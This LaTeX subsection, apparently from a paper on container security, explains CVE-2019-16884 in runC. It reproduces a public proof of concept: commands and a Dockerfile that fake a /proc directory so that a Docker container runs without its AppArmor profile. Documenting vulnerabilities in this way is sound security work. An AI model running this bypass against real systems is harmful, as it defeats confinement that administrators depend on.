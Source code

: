 \subsection{CVE--2019--16884}\label{subsection:CVE-2019-16884}
A bug in runC (1.0.0-rc8 and older versions) made it possible to mount \lstinline{/proc} in a container. Because the active AppArmor profile is defined in \lstinline{/proc/self/attr/apparmor/current}, this vulnerability allows a container to completely bypass AppArmor.

\medskip

A proof of concept has been provided at~\cite{CVE-2019-16884-Github}. We see that if we create a mock \lstinline{/proc}, the Docker starts without the specified AppArmor profile.
\begin{lstlisting}[caption={Bypass AppArmor by mounting \lstinline{/proc}.},captionpos=b]
(host)$ mkdir -p rootfs/proc/self/{attr,fd}
(host)$ touch rootfs/proc/self/{status,attr/exec}
(host)$ touch rootfs/proc/self/fd/{4,5}
(host)$ cat Dockerfile
FROM busybox
ADD rootfs /

VOLUME /proc
(host)$ docker build -t apparmor-bypass .
(host)$ docker run --rm -it --security-opt "apparmor=docker-default"  apparmor-bypass
# container runs unconfined
\end{lstlisting}
